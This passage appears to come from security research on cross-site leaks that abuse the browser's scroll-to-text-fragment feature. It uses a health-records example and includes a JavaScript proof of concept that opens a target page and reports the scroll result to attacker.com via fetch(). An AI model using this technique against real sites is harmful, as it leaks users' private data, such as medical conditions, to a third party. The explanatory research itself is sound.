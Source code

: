 Like this, STTF is used to attempt specific text searches on pages and whether scrolling occurs due to this is sent to attacker servers. Attackers can check what content exists on pages by checking their server logs. This is an additional detection method besides methods using CSS Injection to detect STTF.

This attack is quite similar to XSLeak vulnerabilities occurring in portal. However, XSLeak using STTF searches direct text rather than searching elements on pages, making leaked information clearer and more direct than XSLeak occurring in portal.

As a simple situational example, assume users are logged into national health system sites and there are pages where users' past diseases and health problem information and records can be checked on those sites. Attackers lure such users to their malicious pages, and when users access attacker pages, XSLeak vulnerabilities occur and health detailed information can be leaked.

```html
https://health.gov/patient-records#:~:text=diabetes
https://health.gov/patient-records#:~:text=cancer
https://health.gov/patient-records#:~:text=depression
```

Like this, by detecting whether searches occur for each disease name through CSS Injection or `IntersectionObserver` API, target users' medical information and disease information can be leaked. Like this, XSLeak vulnerabilities using STTF can leak meaningful information about target sites using users' permissions.

Methods to manifest XSLeak vulnerabilities using STTF include various methods besides methods mentioned in this research. Like portal, XSLeak vulnerabilities can be manifested by detecting whether focusing is released in frames using `onblur` events.

```html
<script>
  let blurDetected = false;

  window.addEventListener("blur", () => {
    if (!blurDetected) {
      blurDetected = true;
      fetch("https://attacker.com/leak?scroll_detected=true");
    }
  });

  const popup = window.open(
    "https://target.com#:~:text=confidential",
    "_blank"
  );

  setTimeout(() => {
    if (!blurDetected) {
      fetch("https://attacker.com/leak?scroll_detected=false");
    }
    popup.close();
  }, 3000);
</script>
```

Also, Timing Attack attacks are possible using processing time differences between cases where text matching work exists and doesn't exist in STTF.
